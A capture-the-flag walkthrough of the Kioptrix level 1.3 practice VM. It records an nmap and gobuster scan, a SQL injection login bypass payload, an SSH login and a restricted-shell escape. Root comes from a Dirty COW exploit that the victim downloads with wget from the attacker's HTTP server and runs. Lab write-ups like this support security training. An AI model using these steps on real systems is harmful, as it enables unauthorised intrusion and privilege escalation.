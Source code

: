 --------------------------------
# Author Shubham Ranpise
--------------------------------

# 12/december/2022

# Kioptrix level 1.3

----------------------------------------------------------------
# nmap scan (got website on port 80)
----------------------------------------------------------------
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

----------------------------------------------------------------
gobuster scan (got 2 usernames for member login form (john,robert))
----------------------------------------------------------------
-> gobuster dir -u http://10.0.2.10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 

/member               (Status: 302) [Size: 220] [--> index.php]
/logout               (Status: 302) [Size: 0] [--> index.php]
/images               (Status: 301) [Size: 346] [--> http://10.0.2.10/images/]
/index                (Status: 200) [Size: 1255]
/john                 (Status: 301) [Size: 344] [--> http://10.0.2.10/john/]
/robert               (Status: 301) [Size: 346] [--> http://10.0.2.10/robert/]

----------------------------------------------------------------
# member login form are vulnerable to sql injection
----------------------------------------------------------------
sql query -> ' or 1=1 --
error     -> Warning: mysql_num_rows(): supplied argument is not a valid 
             MySQL result resource in /var/www/checklogin.php on line 28
             Wrong Username or Password

used burp suit intruder for sql injection testing with 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/Auth_Bypass.txt

sql succesfull with 
user -> robert
pass -> admin' or '1'='1'#

from that we got robert's password 
-> ADGAdsafdfwt4gadfga==

----------------------------------------------------------------
# ssh login (from nmap scan we know port 22 is open for ssh 
             lets try to login with robert password)
----------------------------------------------------------------
add -oHostKeyAlgorithms=+ssh-dss to ssh command 
because this error
-> no matching host key type found. Their offer: ssh-rsa,ssh-dss 
-> ssh -oHostKeyAlgorithms=+ssh-dss robert@10.0.2.10

you got ssh access
but we have limited commands
have to jail break
-> echo os.system('/bin/bash')

----------------------------------------------------------------
# privilege escalation
  (kernel version is vulnerable to dirty cow exploit)
----------------------------------------------------------------
uname -r 
-> 2.6.24-24-server

victim machine dont have gcc so i am using precompiled exploit
-> git clone https://github.com/9emin1/dirtyc0w.git
-> python3 -m http.server 8000     

-> cd /tmp
-> wget http://10.0.2.9:8000/dirtyc0w32 -O exploit
-> chmod +x exploit
-> ./exploit "newpassword"
-> su firefart

you got root

----------------------------------------------------------------
# flag
----------------------------------------------------------------
-> cat /root/congrats.txt

Congratulations!
You've got root.

There is more then one way to get root on this system. Try and find them.
I've only tested two (2) methods, but it doesn't mean there aren't more.
As always there's an easy way, and a not so easy way to pop this box.
Look for other methods to get root privileges other than running an exploit.

It took a while to make this. For one it's not as easy as it may look, and
also work and family life are my priorities. Hobbies are low on my list.
Really hope you enjoyed this one.

If you haven't already, check out the other VMs available on:
www.kioptrix.com

Thanks for playing,
loneferret